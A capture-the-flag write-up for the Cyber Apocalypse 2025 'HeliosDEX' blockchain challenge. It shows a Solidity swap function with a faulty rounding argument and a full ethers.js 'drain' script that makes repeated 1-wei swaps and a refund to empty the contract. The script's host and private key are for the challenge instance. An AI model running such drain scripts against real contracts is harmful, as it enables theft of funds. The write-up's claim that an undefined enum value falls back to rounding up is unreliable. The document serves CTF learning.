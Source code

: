 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | HeliosDEX Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: HeliosDEX
tags: "blockchain, starry, solidity"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## HeliosDEX
> Solved by Starry-Lord

We have a Setup.sol and a HeliosDEX.sol to review. In HeliosDEX.sol this flaw was found:


    function swapForELD() external payable underHeliosEye {
            uint256 grossELD = Math.mulDiv(msg.value, exchangeRatioELD, 1e18, Math.Rounding(0));
            uint256 fee = (grossELD * feeBps) / 10_000;
            uint256 netELD = grossELD - fee;
    
            require(netELD <= reserveELD, "HeliosDEX: Helios grieves that the ELD reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveELD -= netELD;
            eldorionFang.transfer(msg.sender, netELD);
    
            emit HeliosBarter(address(eldorionFang), msg.value, netELD);
        }
    
        function swapForMAL() external payable underHeliosEye {
            uint256 grossMal = Math.mulDiv(msg.value, exchangeRatioMAL, 1e18, Math.Rounding(1));
            uint256 fee = (grossMal * feeBps) / 10_000;
            uint256 netMal = grossMal - fee;
    
            require(netMal <= reserveMAL, "HeliosDEX: Helios grieves that the MAL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveMAL -= netMal;
            malakarEssence.transfer(msg.sender, netMal);
    
            emit HeliosBarter(address(malakarEssence), msg.value, netMal);
        }
    
        function swapForHLS() external payable underHeliosEye {
            uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3)); <----- That's the issue here
            uint256 fee = (grossHLS * feeBps) / 10_000;
            uint256 netHLS = grossHLS - fee;
            
            require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
            
    
            reserveHLS -= netHLS;
            heliosLuminaShards.transfer(msg.sender, netHLS);
    
            emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
        }

According to OpenZeppelin’s documentation for the Math Library:


    enum Rounding {
        Down, // Toward negative infinity --> Math.Rounding(0)
        Up, // Toward infinity --> Math.Rounding(1)
        Zero // Toward zero --> Math.Rounding(2)
    }

This means Math.Rounding(3) will cause unexpected behaviors, here are the key points:
Since `3` isn't defined, the compiler treats it as an undefined value, falling back to default rounding behavior which is **Up** [**🎉🎉🎉**](https://emojipedia.org/party-popper)

This rounding made me rich after 250 swaps! Just had to make sure to only swap 1 Wei each time and call the refund function once only, as per the contracts.


![](https://i.imgur.com/Kjig6bi.png)



drain.js script


    const { ethers } = require("ethers");
    
    // Your setup info
    const RPC_URL = "http://94.237.57.122:59310";
    const PLAYER_PRIVATE_KEY = "0xc355db294444232fe7a8e308550e87f2f79c617b7f04541d2f44348235dbf133";
    const PLAYER_ADDRESS = "0xF44279bF0072cd7BD98F4b994d3E7ad7ed15Cd45";
    
    // Contracts
    const SETUP_ADDRESS = "0xD05A41b677783bAB39B68499F8f11f8066A61545";
    
    const SETUP_ABI = [
      "function isSolved() public view returns (bool)",
      "function TARGET() public view returns (address)"
    ];
    
    const HELIOS_DEX_ABI = [
      "function swapForHLS() external payable",
      "function oneTimeRefund(address item, uint256 amount) external",
      "function heliosLuminaShards() external view returns (address)",
      "function hasRefunded(address user) external view returns (bool)"
    ];
    
    const ERC20_ABI = [
      "function approve(address spender, uint256 amount) external returns (bool)",
      "function balanceOf(address account) external view returns (uint256)"
    ];
    
    async function main() {
      const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
      const wallet = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    
      const setupContract = new ethers.Contract(SETUP_ADDRESS, SETUP_ABI, wallet);
      const targetAddress = await setupContract.TARGET();
      const dex = new ethers.Contract(targetAddress, HELIOS_DEX_ABI, wallet);
    
      const hlsAddress = await dex.heliosLuminaShards();
      const hlsToken = new ethers.Contract(hlsAddress, ERC20_ABI, wallet);
    
      console.log(`Connected to HeliosDEX at: ${targetAddress}`);
    
      // Exploit: repeatedly swap very small ETH amounts to get HLS due to faulty rounding
      const exploitValue = ethers.utils.parseUnits("1", "wei"); // smallest possible ETH amount
      const iterations = 250; // Do multiple swaps to accumulate tokens efficiently
    
      console.log(`Starting exploit with ${iterations} swaps of 1 wei each...`);
      for (let i = 0; i < iterations; i++) {
        const txSwap = await dex.swapForHLS({ value: exploitValue });
        await txSwap.wait();
        console.log(`Swap #${i + 1} completed.`);
      }
    
      // Check accumulated HLS balance
      const hlsBalance = await hlsToken.balanceOf(PLAYER_ADDRESS);
      console.log(`Accumulated HLS balance: ${ethers.utils.formatUnits(hlsBalance, 18)} HLS`);
    
      // Approve the DEX to spend tokens
      const approveTx = await hlsToken.approve(targetAddress, hlsBalance);
      await approveTx.wait();
      console.log("Approved DEX to spend HLS tokens.");
    
      // Perform refund once to gain ETH
      const hasRefunded = await dex.hasRefunded(PLAYER_ADDRESS);
      if (!hasRefunded) {
        const refundTx = await dex.oneTimeRefund(hlsAddress, hlsBalance, { gasLimit: 1000000 });
        await refundTx.wait();
        console.log("Refund executed successfully.");
      } else {
        console.log("Refund already executed previously.");
      }
    
      const playerBalance = await provider.getBalance(PLAYER_ADDRESS);
      console.log(`Final player's ETH balance: ${ethers.utils.formatEther(playerBalance)} ETH`);
    
      const solved = await setupContract.isSolved();
      if (solved) {
        console.log("Challenge Solved! Player has 20 ETH or more.");
      } else {
        console.log("Not solved yet, consider increasing iterations.");
      }
    }
    
    main().catch((error) => {
      console.error("Error during exploit execution:", error);
    });
    


